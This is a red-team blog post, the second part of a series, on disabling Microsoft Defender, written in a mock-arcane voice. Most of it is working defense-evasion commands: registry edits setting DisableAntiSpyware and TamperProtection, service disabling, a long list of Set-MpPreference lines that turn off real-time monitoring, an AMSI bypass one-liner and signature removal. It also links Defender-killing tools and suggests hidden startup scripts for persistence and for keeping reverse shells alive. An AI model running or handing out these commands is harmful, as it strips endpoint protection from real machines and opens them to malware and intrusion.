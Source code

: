 ```yaml
---
author: "Jann Moon"
title: "Defender Defeated - Part II: Aegis Unbound"
description: "Further Armaments in the eternal war against Microsoft's Persistant Anti-Virus for Offsec Wizards."
tags: ["AV Bypass", "Defender", "Powershell", "Red Team"]
date: 2023-07-10
thumbnail: floral9.jpg
---
```


In this second chapter on how to overcome the despotic guardian known as Microsoft Defender, lets continue on the chronicle of arcane knowledge and subtle sorcery.  In the last article, I regaled you with tales of frustration and perseverance, sharing the humble beginnings of my journey and described the labyrinthine ways of hiding paths in the shadows, as well as harnessing the very tools bundled within the Defender's arsenal to summon forbidden executables.  

Now, dear reader, let us delve deeper into the intricate tapestry of Defender bypasses, to unearth the secrets needed to disabling its watchful eye.  So gather 'round, fellow seekers of arcane wisdom, as we continue to unravel the ancient scrolls and unlock the gates that stand between us and triumph over Microsoft Defender's steadfast defenses.

## Clandestine Manipulation of Local Group Policy Editor (gpedit.msc)

Hiding things from Defender via setting it to ignore paths is a bit more subtly, but if you'd rather just expunge the lifeforce from it, follow along.  

If "gpedit.msc" is not available, you can run the following to try to install it.

```cmd
C:/ > FOR %F IN ("%SystemRoot%\servicing\Packages\Microsoft-Windows-GroupPolicy-ClientTools-Package~*.mum") DO (DISM /Online /NoRestart /Add-Package:"%F")
C:/ > FOR %F IN ("%SystemRoot%\servicing\Packages\Microsoft-Windows-GroupPolicy-ClientExtensions-Package~*.mum") DO (DISM /Online /NoRestart /Add-Package:"%F")
```

*Requires RDP or VNC Access*

- Run "gpedit.msc", which will open the "Local Group Policy Editor". 
- Browse to  *Computer Configuration* >> *Administrative Templates* >> *Windows Components* >> *Microsoft Defender Antivirus* >> *Real-time Protection* 

- Similarly, you can also set *Turn off Microsoft Defender Antivirus* to *Enabled* in the same section.


### Window's Defender Killing Tools

*DefenderSwitch* by last-byte uses a similar technique of shutting off Defender, though more discretely via usage of the Win32 API.  The code has been updated by APTortellini and is linked below.

[DefenderSwitch by APTortellini on Github](https://github.com/APTortellini/DefenderSwitch)


*StopDefenderService* by dosxuz is a C# tool that uses the token impersonation technique to shut off Defender.  Since Defender's WinDefend process can only be turned off with the privileges of the TrustedInstaller group.  Therefore it steals the token from the TrustedInstaller service and impersonates it - allowing the service to be killed.  

[StopDefenderService by dosxuz](https://github.com/dosxuz/DefenderStop)

*Defeat-Defender* by swagkarma is a batch script that gets rid of the Defender suite eternally.  Thi s includes Windows FireWall
Windows Smart Screen, Firewall, Ransomware Protection and more.

[Defeat-Defender by swagkarma on Github](https://github.com/swagkarna/Defeat-Defender-V1.2.0)

Here's a Powershell script by fiercebrute that also completely removes Defender irreversibly via Set-MpPreference, editing the registry and deleting crucial Defender files.
[fiercebrute gist](https://gist.github.com/fiercebrute/46e0636c0eaf72dcd3df4e280b6792d6)


## Powershell's Registry-Altering Incantations 

To disable most anti-virus features and services via directly changing registry entries, you can use these Powershell commands.  This requires SYSTEM privileges; if not available, use [StopDefenderService by dosxuz](https://github.com/dosxuz/DefenderStop) mentioned above.

```
# Kill "Cloud-Delivered Protections" feature
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows Defender\Real-Time Protection" -Name SpyNetReporting -Value 0

# No more "Automatic Sample submission"
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows Defender\Real-Time Protection" -Name SubmitSamplesConsent -Value 0

# Un-Tamper Un-protection
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows Defender\Features" -Name TamperProtection -Value 4
        
# The big one
New-ItemProperty -Path “HKLM:\SOFTWARE\Microsoft\Windows Defender” -Name DisableAntiSpyware -Value 1 -PropertyType DWORD -Force

Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows Defender" -Name DisableAntiSpyware -Value 1

New-ItemProperty -Path “HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender” -Name DisableAntiSpyware -Value 1 -PropertyType DWORD -Force

Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name DisableAntiSpyware -Value 1
```

Generally, the Defender services can't be stopped, just disabled, therefore they'll return on next restart of the machine.  You could put the following commands into a ".ps1" script that is set to run at startup.  For persistence, this script could be followed by downloading and executing a shell, opening RDP or any preferred method.

```
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\WdNisSvc" -Name Start -Value 4
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\WinDefend" -Name Start -Value 4
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\Sense" -Name Start -Value 4
```

For your enjoyment, here is a pretty comprehensive list of all the Defender features you probably don't want complicating your reverse shells from executing succesfully.  If you want to use these in a hidden script that runs at startup, make sure to add `-ErrorAction SilentlyContinue` at the end of each line.

```
Set-MpPreference -LowThreatDefaultAction Allow 
Set-MpPreference -ModerateThreatDefaultAction Allow 
Set-MpPreference -HighThreatDefaultAction Allow
Set-MpPreference -DisableArchiveScanning 1 
Set-MpPreference -DisableRemovableDriveScanning 1 
Set-MpPreference -DisableBlockAtFirstSeen 1 
Set-MpPreference -DisableBehaviorMonitoring 1 
Set-MpPreference -DisableIntrusionPreventionSystem 1 
Set-MpPreference -DisableScanningMappedNetworkDrivesForFullScan 1 
Set-MpPreference -DisableScanningNetworkFiles 1
Set-MpPreference -DisableScriptScanning 1 
Set-MpPreference -DisableIOAVProtection 1 
Set-MpPreference -DisableRealtimeMonitoring 1 
Set-MpPreference -DisableRealTimeMonitoring 1
```

Neat way to kill AMSI, for safety and fun.

```
"[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)"

```

Finally, you can remove the signatures that Defender uses to identify malicious files.  If the computer has internet access, they will be downloaded again, almost immediately, so this is only effective within internal protected VPNs. 

```
PS > cd "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0"
PS > .\MpCmdRun.exe -RemoveDefinitions -All
Or
Cmd > "%PROGRAMFILES%\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```

## Security Token Manipulation, Impersonation and Humiliation

In the spring of 2022, these new techniques emerged that effectively trap antimalware services within a sandbox, cutting off their access from everything else on the computer.  They run at full capacity and keep their fileless environments free of malware.  

Tools like [TokenStomp by MartinIngesen](https://github.com/MartinIngesen/TokenStomp), [KillDefender by pwn1sher](https://github.com/pwn1sher/KillDefender) and [plackyhacker's SandboxDefender](https://github.com/plackyhacker/SandboxDefender) do some very clever and creative things in their code but I'll do my best to summarize the basics.

	1. Enable `SeDebugPrivilege` in the current user's token
	2. Uses Win32 API functions to find Defender's token, then disable all of its privileges
	3. Set Defender's token integrity level to "Untrusted"


[TokenStomp by MartinIngesen](https://github.com/MartinIngesen/TokenStomp)

[KillDefender by pwn1sher](https://github.com/pwn1sher/KillDefender) 

[plackyhacker's SandboxDefender](https://github.com/plackyhacker/SandboxDefender)
